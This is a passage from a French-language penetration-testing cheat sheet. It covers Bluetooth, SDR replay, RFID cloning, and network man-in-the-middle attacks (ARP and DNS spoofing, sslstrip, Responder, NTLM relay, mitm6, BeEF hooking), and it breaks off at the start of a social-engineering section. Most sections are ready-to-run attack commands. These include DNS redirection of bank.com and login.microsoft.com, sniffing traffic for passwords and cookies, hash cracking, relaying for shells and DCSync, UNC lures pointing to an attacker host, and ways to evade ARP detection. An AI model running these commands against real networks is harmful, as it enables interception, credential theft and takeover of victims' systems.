

### 10.1 BlueZ — commandes de base

```bash
sudo bluetoothctl scan on          # scanning classic + BLE
sudo hcitool scan                  # classic
sudo hcitool lescan                # BLE
sudo hcitool info 00:11:22:33:44:55
sudo gatttool -b AA:BB:CC:DD:EE:FF -I   # GATT
> connect ; > primary ; > characteristics ; > char-read-hnd 0x000f
```

### 10.2 Attaques avancées

```bash
# bettercap - module BLE
sudo bettercap -iface hci0
> ble.recon on ; > ble.show ; > set ble.device AA:BB:CC:DD:EE:FF ; > ble.write ...

# KNOB (2019) : forcer la clé de chiffrement à 1 octet → décryptage
#   exploit : knob-attack (github)

# Ubertooth / btlejack - sniff & inject
sudo ubertooth-btle -f -c 1000
btlejack -c
```

| Pairing | Méthode | MITM | Faiblesse |
|:--|:--|:--:|:--|
| Legacy | PIN 4 chiffres | | Bruteforce PIN, sniff |
| SSP - Numeric comparison | Confirmation visuelle | | UI induite en erreur |
| SSP - Just Works | Aucune confirmation | | MITM transparent |
| SSP - Passkey (BLE) | PIN 6 chiffres | | Bruteforce local |
| LE Legacy pairing | TK | | MITM trivial |

> Fiche : [[Techniques/Protocole Bluetooth| Bluetooth]], IoT : [[13 - Hardware & IoT]],
> [[Outil - Flipper Zero (USB & radio)]] (BLE Spam / Sniffer)

---

## 11. Radio & SDR

Le **SDR** transforme un adaptateur USB en récepteur/émetteur large spectre : **RTL-SDR** (~30€,
RX 24 MHz-1.7 GHz), **HackRF One** (~300€, RX/TX 1 MHz-6 GHz), **LimeSDR**, **USRP**. Objectifs :
écouter des liaisons, identifier des protocoles propriétaires, **rejouer** des signaux sub-GHz
(télécommandes, garages, sonnettes, capteurs).



### 11.1 Workflow de base

```bash
rtl_test -t                                        # tester le matériel
rtl_fm -f 433.92M -M fm -s 22050 -o 4 | aplay -t raw -r 22050 -e signed -b 16 -c 1
rtl_433 -f 433920000 -H 30                         # capteurs 433/868
hackrf_transfer -r capture.raw -f 433920000 -s 2000000   # capture IQ
hackrf_transfer -t capture.raw -f 433920000 -s 2000000   # rejeu
urh                                                  # analyse + rejeu avancé
```

### 11.2 Matériel & outils

| Matériel | Bande | TX | Usages |
|:--|:--|:--:|:--|
| **RTL-SDR** | 24 MHz - 1.7 GHz | | Scanning, AM/FM, ATC, capteurs |
| **HackRF One** | 1 MHz - 6 GHz | | Replay, jamming léger |
| **LimeSDR** | 100 kHz - 3.8 GHz | | Large bande, GSM/LTE |
| **USRP** | selon modèle | | Lab, recherche |

| Outil | Rôle |
|:--|:--|
| `gqrx` | GUI spectre + demod |
| `rtl_433` | Décodage capteurs 433/868 |
| `Universal Radio Hacker` | Analyse/modulation/replay |
| `GNU Radio` / `multimon-ng` | DSP / POCSAG, APRS, DTMF |

> [!warning] **Cadre légal strict** : émettre sur des fréquences non possédées (même rejouer sa
> propre télécommande) peut violer la réglementation télécoms. Tests sur **ton** matériel, en lab.

> Fiche : [[Techniques/Hardware - SDR| SDR]], cross-ref : [[13 - Hardware & IoT]]

---

## 12. RFID & NFC

Le **RFID/NFC** sécurise badges, paiements, portes d'hôtel. Deux familles : **LF 125 kHz** (HID,
EM410X, Indala) et **HF 13.56 MHz** (MIFARE Classic/DESFire, NTAG). Attaques : **lecture**,
**clonage**, **émulation**, **replay**.



### 12.1 Proxmark3 — commandes essentielles

```bash
proxmark3 -p com4                    # ou /dev/ttyACM0
lf hid reader ; lf hid clone --id 2004E21F34        # LF HID
lf em 410x reader ; lf em 410x clone --id 2004E21F34 # LF EM410X
hf mf cli --dump                     # MIFARE Classic : dump complet
hf mf cli --reader                   # lire avec clés par défaut
hf mf ckey --brute-force             # bruteforce de clé
hf mf cli --restore --dmp dump.mfd   # restaurer un dump
```

### 12.2 Comparaison des standards

| Technologie | Fréquence | Sécurité | Clonage | Usage |
|:--|:--:|:--|:--:|:--|
| **EM410X** | 125 kHz | aucune | Instantané | Badges bas de gamme |
| **HID Prox** | 125 kHz | Wiegand clair | Instantané | Accès bâtiment |
| **MIFARE Classic** | 13.56 MHz | Crypto1 cassée | Moyen | Transports, cantines |
| **MIFARE Plus / DESFire** | 13.56 MHz | AES | Dur | Accès récent, paiement |
| **NTAG / NFC** | 13.56 MHz | Variable | Selon type | Étiquettes, démo |

```bash
# Flipper Zero : NFC Read/Write/Emulate, RFID LF, Bad USB (voir §24)
# HydraNFC / iCopy-X : clonage "grand public"
```

> Hub : [[13 - Hardware & IoT]] · fiches : [[Techniques/Hardware - RFID et NFC]],
> [[Techniques/Hardware - RFID MIFARE (HF 13.56 MHz)|MIFARE]], [[Techniques/Hardware - RFID LF (HID, EM410X, Indala, HiTag)|RFID LF]],
> [[Techniques/Hardware - Proxmark|Proxmark]], [[Techniques/Hardware - HydraNFC]], [[Techniques/Hardware - iCopy-X]]

---

## 13. MITM — Vue d'ensemble

Le **Man-In-The-Middle** se place **entre** deux parties (client ↔ serveur, victime ↔ passerelle)
pour lire, modifier ou détourner le trafic : la victime **croit** communiquer avec le vrai
destinataire, tout passe par nous.



### 13.1 Les surfaces d'attaque

| Couche | Mécanisme | Outils | Section |
|:--|:--|:--|:--|
| L2 | ARP spoofing, DHCP starvation, STP | `arpspoof`, `bettercap`, `ettercap` | §14 |
| L3 | ICMP redirect, IPv6 RA | `bettercap`, `mitm6` | §19 |
| L5-L7 | DNS spoof, HTTP, HTTPS strip, LLMNR | `dnsspoof`, `sslstrip`, `Responder` | §15-17 |
| Application | Proxy, certificats, JS injection | `mitmproxy`, `beef` | §16, §20 |

### 13.2 Où le MITM marche (et où il casse)

| Scénario | Statut | Pourquoi |
|:--|:--:|:--|
| Trafic HTTP brut (réseau local) | | Pas de chiffrement |
| Windows/AD (LLMNR, NTLM) | | Protocoles legacy |
| HTTPS avec cert installé chez la victime | | Confiance du root store |
| HTTPS moderne (HSTS preload, pinning, HTTP/2) | | Le navigateur refuse |
| Apps mobiles / cert pinning | | Signature vérifiée dans l'app |
| DNS over HTTPS (DoH) | | DNS spoofing inopérant |

> [!info] **La philosophie MITM** : sur un réseau moderne, le MITM simple **ne suffit plus**. On
> cible ce qui reste en clair (HTTP, SMB, NTLM, DNS) ou on dégrade (HTTPS → HTTP, WPA2 → rogue). La
> priorité : **capturer des credentials ou des hashes**.

> Fiche : [[Techniques/ARP Spoofing et MITM| ARP Spoofing / MITM]]

---

## 14. ARP Spoofing

L'**ARP spoofing** (ARP cache poisoning) empoisonne les tables ARP de la victime et de la passerelle
pour **rediriger le trafic L2 vers nous**. On devient le \"hub\" entre la victime et le réseau. C'est
le MITM de base.



### 14.1 Workflow classique

```bash
sudo sysctl -w net.ipv4.ip_forward=1          # ne pas casser le réseau
sudo arpspoof -i eth0 -t 192.168.1.50 192.168.1.1 &   # victime
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.50 &   # passerelle (sens retour)
sudo tcpdump -i eth0 -n -A | grep -iE "password|login|session|cookie"
# fin : sudo pkill arpspoof ; sudo ip neigh flush all
```

### 14.2 bettercap

```bash
sudo bettercap -iface eth0
> net.probe on
> set arp.spoof.targets 192.168.1.50
> arp.spoof on
> net.sniff on
```

### 14.3 Évasion & détection

| Défense | Détection | Évasion |
|:--|:--|:--|
| `arpwatch` (baseline MAC) | Couple IP/MAC anormal | Changer de MAC, timing lent |
| DHCP snooping + DAI | Trames ARP non conformes | Spoof après échange DHCP |
| Segmentation (VLAN) | Limite la portée | Cible accessible choisie |

> [!warning] **Piège** : sans `ip_forward=1` (ou règle FORWARD DROP), la victime **perd
> Internet** → coupure visible. Vérifier `sysctl -w net.ipv4.ip_forward=1` + `iptables -P FORWARD
> ACCEPT`. Fiche : [[Techniques/ARP Spoofing et MITM| ARP Spoofing / MITM]], outil : [[Outil - bettercap]]

---

## 15. DNS Spoofing & Hijacking

Une fois MITM, on **intercepte les requêtes DNS** de la victime et on répond à sa place : tout
domaine pointé devient notre serveur. Pour détourner un login vers un clone, dégrader HTTPS, ou
servir du malware. Ne marche plus avec **DoH/DoT** ou un résolveur hors réseau.



### 15.1 bettercap dns.spoof

```bash
sudo bettercap -iface eth0
> net.probe on ; > arp.spoof on
> set dns.spoof.domains bank.com, login.microsoft.com
> set dns.spoof.address 192.168.1.99     # notre IP
> dns.spoof on
```

### 15.2 dnsspoof (dsniff)

```bash
echo "192.168.1.99 bank.com" > hosts.txt
echo "192.168.1.99 www.bank.com" >> hosts.txt
sudo dnsspoof -i eth0 -f hosts.txt        # requiert le MITM ARP
```

### 15.3 DNS rebinding

```bash
# Un domaine malveillant alterne les réponses A records :
#   résolution 1 : IP du serveur malveillant (lors du chargement)
#   résolution 2 : IP du service interne de la victime (192.168.x.x)
# → le navigateur appelle 127.0.0.1/admin avec l'origine du domaine
#   malveillant → même origine → exfiltration
# Outils : rebind.telekom / nippon / rebinder local
```

> [!note] **Limites modernes** : DoH/DoT ignore nos réponses ; HSTS + HTTPS refuse le HTTP
> downgrade (voir §16) ; Android/iOS peuvent prioriser leur propre DNS.

---

## 16. HTTPS Interception

L'HTTPS se défend par **TLS** : sans clé de confiance, impossible de déchiffrer. Trois stratégies :

1. **Downgrade HTTPS → HTTP** (sslstrip) : réécrire les URLs pour rester en HTTP.
2. **Certificat forgé** installé chez la victime → on devient un CA de confiance.
3. **HSTS bypass** : contourner les en-têtes HSTS (variantes, première visite).



### 16.1 sslstrip (le pionnier, conceptuel)

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
sslstrip -l 10000         # réécrit https:// en http:// dans le flux
# (tué par HSTS sur les navigateurs modernes)
```

### 16.2 sslstrip2 / bettercap hstshijack

```bash
sudo bettercap -iface eth0
> arp.spoof on
> set hstshijack.https false ; > hstshijack on
> set http.proxy.script /tmp/hook.js ; > http.proxy on
```

### 16.3 mitmproxy (avec certificat de confiance)

```bash
mitmproxy --mode transparent -p 8080
# Certificat à installer côté victime : ~/.mitmproxy/mitmproxy-ca-cert.pem
#   Windows : Magasin racines | Android : CA racine (user) | iOS : profil + "Confiance complète"
mitmdump --mode transparent -s inject.py -p 8080
```

### 16.4 Bypass de HSTS

| Technique | Principe | Efficacité |
|:--|:--|:--:|
| **HSTS preload** | Domaine dans la liste de pré-chargement | Bloque tout downgrade |
| **Variant de domaine** | `bank.com.evil.io`, `bank.com.` | selon navigateur |
| **Première visite** | HSTS pas encore appris | si non preloadé |
| **Sous-domaines non couverts** | `cdn.bank.com` non listé | |
| **Cert racine installé** | On devient un CA de confiance | le plus fiable |

> [!warning] **Le MITM HTTPS moderne = certificat ou rien** : sans cert installé chez la victime,
> les sites modernes **refusent** toute interception. Le meilleur usage du MITM reste le trafic
> **non chiffré** et les **hashes** (§17-18). Outils : [[Outil - mitmproxy]], [[Outil - bettercap]]

---

## 17. LLMNR/NBT-NS/mDNS Poisoning

Windows et macOS résolvent les noms non-FQDN par des protocoles **legacy** : **LLMNR** (UDP 5355),
**NBT-NS** (UDP 137), **mDNS** (UDP 5353). Quand une machine demande un nom inconnu, elle
**broadcaste** → **Responder** répond \"c'est moi\" → la machine nous envoie son auth NTLM → hash
**NetNTLMv2** capturé.



### 17.1 Responder — workflow complet

```bash
sudo responder -I eth0 -A                    # analyse sans poisonner
sudo responder -I eth0 -wrf                  # poison (WPAD + NBT-NS + fingerprint)
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.1.50.txt   # hashes
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
```

### 17.2 Protocoles & ports

| Protocole | Port | Utilisé par | Attaque |
|:--|:--|:--|:--|
| **LLMNR** | UDP 5355 | Windows (IPv4/IPv6) | Réponse forgée → hash |
| **NBT-NS** | UDP 137 | Windows legacy | Réponse forgée → hash |
| **mDNS** | UDP 5353 | macOS / Bonjour / `.local` | Réponse forgée → hash |
| **WPAD** | HTTP 80 | Proxy auto-découvert | Proxy injecté → JS / SMB |

### 17.3 Déclencher l'authentification

```bash
# Le hash part dès qu'une machine cherche un partage non résolu :
#   - mail avec un lien \\\\attacker\\share
#   - document Office référençant \\\\attacker\\test
# (options dans [[Outil - Responder]] et [[Outil - CrackMapExec]])
```

> [!warning] **Bruit AD** : Responder poisons **toutes** les requêtes du segment → très visible
> en prod (SIEM, timings DNS). Cibler proprement en contrat.
> Fiche : [[Techniques/LLMNR-NBT-NS Poisoning]], cross-ref : [[05 - Active Directory]]

---

## 18. NTLM Relay

Au lieu de **cracker** le hash, on le **relaye** : on présente le challenge/réponse de la victime à
un **service cible** (SMB, LDAP, HTTP, MSSQL) pour agir **en son nom**. Pas besoin de cracker : on
**devient** la victime le temps d'une authentification.



### 18.1 Workflow complet

```bash
sudo responder -I eth0 -wv    # sans -r/-f (ne pas servir SMB soi-même)
sudo ntlmrelayx.py -t smb://192.168.1.20 -smb2support     # relay SMB
sudo ntlmrelayx.py -t smb://192.168.1.20 -i               # shell interactif
sudo ntlmrelayx.py -t ldap://DC01 --escalate-user hacker  # relay LDAP (RBCD)
sudo ntlmrelayx.py -t mssql://192.168.1.30 -smb2support   # relay MSSQL
```

### 18.2 Cibles & contraintes

| Cible | Port | Condition clé | Résultat |
|:--|:--|:--|:--|
| **SMB** | 445 | SMB signing **désactivé** | Shell, exécution |
| **LDAP** | 389/636 | Privilège de la victime | Ajout user, RBCD, DCSync |
| **HTTP** | 80/8080 | App NTLM | Auth web |
| **MSSQL** | 1433 | Auth Windows | Requêtes, `xp_cmdshell` |

### 18.3 Printer bug (MS-RPRN)

```bash
# Force un DC à s'authentifier vers nous (API SpoolService, nom UNC du DC)
# → hash NetNTLMv2 d'un compte machine DC → relay possible
# Outils : printerbug.py, SpoolSample, rpcdump.py |spoolsv|
```

> [!warning] **Le mur : SMB signing** : si le signing est **obligatoire**, le relay échoue
> (obligatoire par défaut sur les DC récents). Parade : cibler **LDAP** ou exploiter
> CVE-2019-1040 (MIC drop) pour désactiver le signing.
> Fiche : [[Techniques/NTLM Relay]], outils : [[Outil - Responder]], [[Outil - CrackMapExec]]

---

## 19. DHCPv6 Attacks

Sur un réseau IPv6 (souvent **pas surveillé**), **DHCPv6** permet à n'importe qui de servir une
config réseau. **mitm6** s'annonce comme **serveur DNS** → la victime utilise notre DNS → réponses
empoisonnées → WPAD → auth SMB → **hashes** ou **relay LDAP**. Contourne les réseaux durcis côté
ARP/IPv4.



### 19.1 Workflow mitm6 + ntlmrelayx

```bash
sudo mitm6 -d domain.local                     # poisonne le DNS IPv6
sudo ntlmrelayx.py -6 -t ldaps://192.168.1.10 -wh wpad -l /tmp/logs
# -6 : IPv6, -t : cible LDAP(S), -wh : forcer WPAD
# → comptes ajoutés, DCSync possible, hashes
```

### 19.2 Détails à connaître

| Élément | Rôle | Point de contrôle |
|:--|:--|:--|
| DHCPv6 | Fournit le DNS | Souvent non surveillé (IPv6 négligé) |
| WPAD | Auto-discovery du proxy | Actif si `EnableAutoProxy` |
| SMB/HTTP | Auth déclenchée | Hash NetNTLMv2 → relay |
| LDAP | Cible privilégiée du relay | DCSync / ajout de compte |

> [!note] mitm6 transforme un réseau **durci côté IPv4** en porte d'entrée par **l'IPv6
> oubliée**. Beaucoup d'AD se prennent comme ça en interne. Outil : [[Outil - mitm6]],
> cross-ref : [[05 - Active Directory]]

---

## 20. JavaScript Injection & Hooking

Une fois MITM sur du trafic **HTTP** (ou HTTPS avec cert), on **injecte du JavaScript** dans les
pages : modifier le contenu, voler des cookies, **hooker** le navigateur avec **BeEF** (keylogger,
écran, caméra, phish intégré). C'est la couche \"application\" du MITM.



### 20.1 bettercap http.proxy

```bash
sudo bettercap -iface eth0
> net.probe on ; > arp.spoof on
> set http.proxy.script /tmp/hook.js ; > http.proxy on
# (https.proxy on si cert installé)
```

### 20.2 BeEF

```bash
sudo beef-xss
# UI : http://127.0.0.1:3000/ui/panel
# Hook : <script src='http://127.0.0.1:3000/hook.js'></script>
#   → injecté via bettercap http.proxy.script ou envoyé à la cible
# Modules : keylogger, clipboard, phish, redirect, exfil, caméra
```

| Vecteur | Portée | Condition |
|:--|:--|:--|
| HTTP en clair (MITM) | Large | Trafic non chiffré |
| HTTPS (proxy + cert) | Large | Cert de confiance installé |
| XSS dans l'app ([[Outil - XSStrike]]) | Périmètre de l'app | Point d'injection |

> Outils : [[Outil - BeEF]], [[Outil - bettercap]], [[Outil - XSStrike]],
> voir [[Techniques/XSS (Cross-Site Scripting)]]

---

## 21. Social Engineering — Framework

L'ingénierie sociale (SE) **contourne la technique** en s'attaquant à l'humain : le maillon faible
le plus rentable. Le framework : **OSINT → prétexte → vecteur → exécution → reporting**.

```mermaid
flowchart LR
    A["1. OSINT<br>nom, rôle, habitudes"] --> B["2. Prétexte<br>scénario crédible"]
    B --> C["3. Vecteur<br>email / tel / USB / cloné"]
    C --> D["4. Exécution<br>creds / payload"]
